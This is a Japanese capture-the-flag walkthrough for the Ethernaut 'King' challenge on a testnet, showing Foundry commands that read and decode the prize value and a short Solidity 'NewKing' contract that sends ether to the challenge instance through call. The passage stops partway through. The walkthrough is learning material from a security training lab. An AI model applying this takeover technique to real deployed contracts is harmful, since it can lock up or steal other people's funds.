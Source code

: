 1. `receive()`関数を見ると、送られるエーテルの量が`prize`よりも多くなければならないという条件があります。したがって、`prize`の値を取得しましょう。

- `prize()`関数を呼び出すために foundry を使用しました。こちらがコマンドです：
- `0xaaaaaaaaaaaa`を自分のコントラクトインスタンスアドレスに置き換え、環境変数も設定してください。

```bash
cast call 0xaaaaaaaaaaaa "prize()" --private-key $PRIVATE_KEY_TESTNET --rpc-url $alchemy_RPC_sepolia
```

2. 前のコマンドの結果をデコードします：

```bash
cast --to-base 0x00000000000000000000000000000000000000000000000000038d7ea4c68000 dec
```

- デコードした結果は：`1000000000000000` wei、つまり 0.001Eth です。

- 次に、エーテルの送金後に`payable(king).transfer(msg.value);`がトリガーされるはずです。
- しかし、この行が実際の問題です。`2300`のガスキャップのためにリバートされます。したがって、Eth を送るために`call`関数を使用する必要があります。

3. `call`関数を使用して eth を送るコントラクトを書いてみましょう。Ethernaut で初期化されたコントラクトインスタンスのアドレスに対してです。

- 以下を Remix にコピーしてください。
- デプロイしてください。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract NewKing {

        function Attack(address _to) public payable {
        // 関数呼び出しにEtherが含まれているかを確認
        require(msg.value >  0, "No Ether provided for transfer");

        // 送信者から指定されたアドレスにEtherを転送
        // _to.transfer(msg.value); -> ガスがキャップされているため使用できない、sendも同様
        (bool sent, ) = _to.call{value: msg.value}("");
        require(sent, "Failed to send value!");
        }
}

```

4. `Attack`は Ethernaut 上で作成されたコントラクトインスタンスのアドレスを入力として取ります。送信するエーテルの量、`1000000000000000`も`Value`に入力する必要があります。

<br/>
<p align="center">